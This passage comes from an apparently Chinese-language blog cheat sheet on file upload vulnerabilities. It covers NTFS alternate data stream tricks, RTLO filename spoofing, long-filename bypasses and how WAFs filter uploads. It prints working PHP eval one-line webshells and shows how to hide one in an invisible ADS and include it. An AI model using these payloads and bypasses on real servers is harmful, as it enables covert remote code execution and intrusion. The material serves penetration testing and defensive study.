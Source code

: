 #### 利用NTFS ADS特性[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%88%A9%E7%94%A8NTFS-ADS%E7%89%B9%E6%80%A7)

ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5|test.php:a.jpg　　　　　　　　　生成test.php  空  <br>test.php::$INDEX_ALLOCATION  生成test.php文件夹    <br>test.php::$DATA\1.jpg  　　　生成1.jpg(不可见的)  <br>echo ^<?php @eval(request[caidao])?^>  > index.php:hidden.jpg  <br>这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。我们可以在另外一个正常文件里把这个ADS文件include进去，<?php include(‘index.php:hidden.jpg’)?>，这样子就可以正常解析我们的一句话了|

#### 利用RTLO[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%88%A9%E7%94%A8RTLO)

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4|新建一个文件php.html  <br>内容为：<?php @eval($_POST['caidao']);?>  <br>重命名文件：输入名字的文本框里点右键，选择“插入unicode控制字符”，然后就到了这个菜单栏，我们选择RLO  <br>这个时候php.html已经变成了html.php了|

#### 特殊的长文件名绕过[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E7%89%B9%E6%AE%8A%E7%9A%84%E9%95%BF%E6%96%87%E4%BB%B6%E5%90%8D%E7%BB%95%E8%BF%87)

文件名使用非字母数字，比如中文等最大程度的拉长  
shell.asp;王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王.jpg

#### 反删除[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%8F%8D%E5%88%A0%E9%99%A4)

将name=”file1”改成了file4，可以防止文件删除（JCMS漏洞）

#### 图片转换/二次渲染/文件幻数检测[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%9B%BE%E7%89%87%E8%BD%AC%E6%8D%A2-x2F-%E4%BA%8C%E6%AC%A1%E6%B8%B2%E6%9F%93-x2F-%E6%96%87%E4%BB%B6%E5%B9%BB%E6%95%B0%E6%A3%80%E6%B5%8B)

- 在不破坏文件本身渲染情况下，在空白区进行代码填充，一般是图片注释
- 溢出攻击
- 绕过GD库

## WAF Bypass[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#WAF-Bypass)

WAF如何拦截？

- 解析文件名，判断是否在黑名单内。
- 解析文件内容，判断是否为webshell。
- 文件目录权限

目前，市面上常见的是解析文件名，少数WAF是解析文件内容，比如长亭。下面内容，都是基于文件名解析。
